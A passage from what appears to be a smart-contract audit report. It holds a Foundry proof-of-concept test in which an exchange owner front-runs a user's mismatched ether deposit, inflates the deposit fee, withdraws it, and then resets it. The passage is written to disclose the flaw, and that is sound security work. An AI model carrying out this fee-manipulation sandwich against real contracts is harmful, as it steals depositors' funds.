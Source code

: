 ```
        console.log("Bob's ether balance is: %d wei", bobBalanceBefore);
        console.log("Alice's ether balance is: %d wei", aliceBalanceBefore);
        console.log("Default deposit ether balance is: %d wei", depositBalanceBefore);
        console.log("Ether balance of malicious exchange owner is: %d wei", exchangeOwnerBalanceBefore);

        // Malicious owner spots sandwich opportunity, either through malicious front-end or by simply watching mempool for user error
        console.log("------Bob tries to deposit Ether to ExchangeV3 but mistakenly has 'amount' parameter lower than msg.value sent------");
        console.log("------Malicious owner spots sandwich opportunity and front-runs Bob's deposit------");
        vm.startPrank(exchangeOwner);
        uint248 maliciousAmount = 1 wei;        // Malicious front-end or user error
        uint256 freeDepositMax = 0;
        uint256 freeDepositRemained = 0;
        uint256 freeSlotPerBlock = 0;
        uint256 depositFee = depositAmount - maliciousAmount;
        exchange.setDepositParams(freeDepositMax, freeDepositRemained, freeSlotPerBlock, depositFee);
        console.log("Deposit fee temporarily set to difference between Bob's msg.value and 'amount' (%d wei)", depositFee);
        vm.stopPrank();

        // Bob deposits to ExchangeV3, unaware that he is being front-run
        vm.startPrank(bob);
        exchange.deposit{value: depositAmount}(bob, bob, ethDepositAddress, maliciousAmount, "");
        vm.stopPrank();
        vm.prank(exchangeOwner);
        exchange.withdrawExchangeFees(address(0), exchangeOwner);
        assertEq(bob.balance, 0);
        assertEq(address(defaultDepositContract).balance, depositBalanceBefore + maliciousAmount);
        console.log("Exchange owner collects temporarily inflated fee and withdraws it");
        console.log("Exchange owner's ether balance is now: %d wei", exchangeOwner.balance);
        assertEq(exchangeOwner.balance, depositFee);
        console.log("Bob's ether balance is now: %d wei with a deposit value of: %d wei", bob.balance, exchange.getPendingDepositAmount(bob, ethDepositAddress));
        assertEq(exchange.getPendingDepositAmount(bob, ethDepositAddress), maliciousAmount);

        // Malicious owner completes sandwich attack on Bob
        console.log("Setting deposit fee back to 0 wei, completing sandwich attack on Bob");
        depositFee = 0;
        vm.prank(exchangeOwner);
        exchange.setDepositParams(freeDepositMax, freeDepositRemained, freeSlotPerBlock, depositFee);

        console.log("------Alice deposits same Ether amount as Bob, but correctly sets 'amount' parameter and msg.value equal------");
        console.log("------Malicious owner has no sandwich opportunity and lets Alice deposit as normal------");
        vm.startPrank(alice);
        exchange.deposit{value: depositAmount}(alice, alice, ethDepositAddress, depositAmount, "");
        vm.stopPrank();
        assertEq(alice.balance, 0);
        assertEq(address(defaultDepositContract).balance, depositBalanceBefore + maliciousAmount + depositAmount);
        assertEq(exchange.getPendingDepositAmount(alice, ethDepositAddress), depositAmount);
        console.log("Alice's ether balance is now: %d wei with a deposit value of: %d wei", alice.balance, exchange.getPendingDepositAmount(alice, ethDepositAddress));
    }
}
```
Run the following forge test: